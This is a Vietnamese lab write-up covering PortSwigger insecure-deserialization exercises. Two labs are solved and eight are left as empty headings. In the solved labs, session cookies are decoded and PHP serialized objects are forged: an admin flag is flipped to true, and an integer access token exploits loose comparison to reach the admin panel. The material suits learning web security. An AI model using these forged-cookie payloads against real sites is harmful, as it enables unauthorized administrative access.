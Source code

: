 # 1. Modifying serialized objects

Đăng nhập với credentials wiener:peter, thấy session cookie có giá trị 

```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d
```
Thực hiện base64 decode thì ta được 

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}
``` 
chính là object User với hai thuộc tính "username" và "admin" được serialize bởi PHP.

Sửa thành 

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}
```
rồi thực hiện base64 encode, thay thế giá trị cookie hiện tại. Sau khi refresh, link dẫn đến Admin panel xuất hiện.

Vào admin panel và xóa user carlos, kết quả thành công.

# 2. Modifying serialized data types

Đăng nhập với credentials wiener:peter, thấy session cookie có giá trị:

```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJiNThuaDhwNWo4Z3czM3k2eXF2ZXB6c2k3eWRqd280NSI7fQ%3d%3d
```
Thực hiện base64 decode thì ta được 
```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"b58nh8p5j8gw33y6yqvepzsi7ydjwo45";}
```
Như vậy nếu access token và username đúng thì ta sẽ truy cập được vào tài khoản.

Website sử dụng hàm serialize() của PHP, như vậy ta có thể thay đổi data type của access token thành int, và nếu website không convert access token thành kiểu string, đồng thời trong access token của administrator không có chữ số, và website so sánh access token bằng loose comparision thì ta có thể bypass.

Cấu hình một serialized object mới với `username=administrator` và `access_token=0` (kiểu integer):
```
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
```
Thực hiện base64 encode và thay thế cookie hiện tại, kết quả truy cập thành công. Vào admin panel và xóa user carlos, bài lab được giải.

# 3. Using application functionality to exploit insecure deserialization

# 4. Arbitrary object injection in PHP

# 5. Exploiting Java deserialization with Apache Commons

# 6. Exploiting PHP deserialization with a pre-built gadget chain

# 7. Exploiting Ruby deserialization using a documented gadget chain

# 8. Developing a custom gadget chain for Java deserialization

# 9. Developing a custom gadget chain for PHP deserialization

# 10. Using PHAR deserialization to deploy a custom gadget chain

